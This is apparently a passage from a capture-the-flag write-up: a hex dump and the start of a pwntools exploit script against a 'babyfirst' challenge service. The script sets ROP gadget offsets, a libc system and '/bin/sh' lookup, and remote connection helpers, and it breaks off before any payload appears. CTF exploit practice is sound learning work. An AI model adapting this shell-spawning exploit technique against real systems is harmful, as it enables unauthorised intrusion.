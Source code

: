 ```
Before:
0x0d60806019c93615	0xef683548a35d647c
0x44346fe9e7682bf5	0x899ccab9462b6744

After:
0x0d60806019c93615	0xef683548a35d647c
0x44346fe9e7682bf5	0x899ccab9462b6744

```

`exploit.py`:

```python
from __future__ import print_function
from pwn import *
import os

GDBSCRIPT = """
"""
HOST = 'babyfirst.chung96vn.cf'
PORT = 31337
BIN = './babyfirst'
LIBC = './libc-2.27.so'

PROMPT = 'Your choice: '
LOGIN = '1'
PLAY = '2'
EXIT = '3'

bin_offset = 0xfc0
libc_offset = 0x21b97
libc = ELF(LIBC)

addrs = {
    'system': libc.symbols['system'],
    'binsh': libc.search('/bin/sh').next(),
    'poprdi': 0x000000000002155f,
    'poprax': 0x00000000000439c8,
    'poprsi': 0x0000000000023e6a,
    'poprdx': 0x0000000000001b96,
    'syscall': 0x00000000000d2975
}

if os.environ.has_key('remote'):
    r = remote(HOST, PORT)
else:
    e = ELF(BIN)
    r = process(e.path, env={'LD_PRELOAD': LIBC})

if os.environ.has_key('debug'):
    gdb.attach(r, gdbscript=GDBSCRIPT)

def login(username, password=None):
    r.recvuntil(PROMPT)
    r.sendline(LOGIN)
    r.recvuntil('User Name: ')
    r.sendline(username)
    if password != None:
        r.recvuntil('Password: ')
        r.sendline(password)

def play(play=None, payload=None):
    r.recvuntil(PROMPT)
    r.sendline(PLAY)
```